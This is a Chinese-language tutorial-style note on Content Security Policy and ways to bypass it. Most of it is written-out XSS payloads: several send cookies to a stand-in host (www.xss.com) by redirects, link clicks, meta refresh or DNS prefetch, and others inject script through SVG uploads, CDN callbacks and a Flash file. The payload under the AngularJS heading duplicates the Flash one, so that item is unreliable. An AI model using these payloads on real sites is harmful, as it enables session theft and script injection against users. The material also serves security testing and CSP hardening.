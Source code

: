 ```yaml
---
title: 内容安全策略（CSP）及绕过
date: 2017-09-16 01:46:09
tags: WEB安全
---
```

#内容安全策略（CSP）及绕过

####定义
>内容安全策略以白名单的机制来管理网站加载或执行的资源。在网页中，这样的策略是通过 HTTP 头信息或者 meta 标签来定义的。

####设置的两种方式
* > 通过 HTTP 头信息的Content-Security-Policy的字段
   ```text
   Content-Security-Policy 字段
   ```
* > 通过网页的<meta>标签。
```text
   <meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
 ```

测试CSP是否合理
[google evaluator](https://csp-evaluator.withgoogle.com/)
 ***
 绕过总结

#### 基于新标签的绕过
```text
    由于<link>标签最新的rel属性dns-prefetch尚未被加入csp实现中
使用如下payload,即可发出一条dns解析请求,在ns服务器查看可得到内容
<link rel="dns-prefetch" href="[cookie].xss.com">dns-p
 ```

#### 基于跳转的绕过
>以下的方式都无需交互
>缺点是可能被发现,因此可以采取在目标页面再跳转回来的方法
>设置default-src 'self';script-src 'self' 'unsafe-inline

* location.href
```script
 window.location="http://www.xss.com/x.php?c=[cookie]";
```

* a 标签点击
```script
    var a=document.createElement("a");
    a.href='http://www.xss.com/?c='+escape(document.cookie);
    a.click();
    Firefox不可用
```

* meta标签
```html
<meta http-equiv="refresh" content="5;url=http://www.xss.com/x.php?c=[cookie]" >
```
> 设置严格的CSP
> default-src 'self'; script-src 'self';

* 302跳转
```text
如果我们的script-src设置为某个目录,通过这个目录下的302跳转,是可以绕过csp读取到另一个目录下的脚本的。
在我的例子是这样设置的Content-Security-Policy: default-src 'self';script-src http://127.0.0.1/a/ ;
csp限制了/a/目录,而我们的目标脚本在/b/目录下则如果这时候请求redirect页面去访问/b/下的脚本
是可以通过csp的检查的,比如<script src="http://127.0.0.1/a/redirect.php?url=/b/2" ></script>
但是就如官网中描述的,加载的资源所在的域必须和自身处于同域下(example.com)也就是不可能通过302跳转去加载一个其他域下的脚本的。
比如通过a.com的302跳转去加载b.com下的脚本所以这种方法仍然有一定的局限性,但是对于那些限制死了只能加载某个目录下的js的情况
仍然有比较好的绕过效果
```
>这个漏洞是可以绕过CSP对js脚本当前目录的限制

总结
```
1、在script-src允许的域下，需要存在一个重定向的页面，这种页面大多存在于登陆，退出登录。
2、在script-src允许的域下，存在某个任意文件的上传点（任意目录）。
3、有特别的方式跨域发送请求，或者有站内域可以接受请求。
```
#### 文件上传功能带来的bypass
* apache
```
没有返回content-type,而这时,我们的文件是会被直接当作html解析的
```
* nginx
```
我们尝试上传一个.svg文件,这样的矢量图现在也已经被广泛的应用
内容如下
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(URL)"/>
```
因此,如果网站允许上传.svg文件,在nginx等情况下也是可以执行内联js的

#### 基于 CDN 绕过CSP
> 设置 default-src 'self' ajax.googleapis.com'

绕过方法
* 用cdn的回调函数(要绕过xss Auditor)
```txt
http://127.0.0.1/ctest/test.php?xss=%22%3E%3Cscript%20src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0&callback=alert&context=1337%3E%3C/script%3E
```
* 通过目录绕过，引入一个AngularJS
```txt
"><embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>
```
* 通过flash绕过
```txt
"><embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>
```

####
* firefox和ie
[Firefox53 & Edge40 Browsers CSP Bypass](https://www.n0tr00t.com/2017/05/10/Firefox-and-Edge-Browsers-CSP-Bypass.html)

* Safari



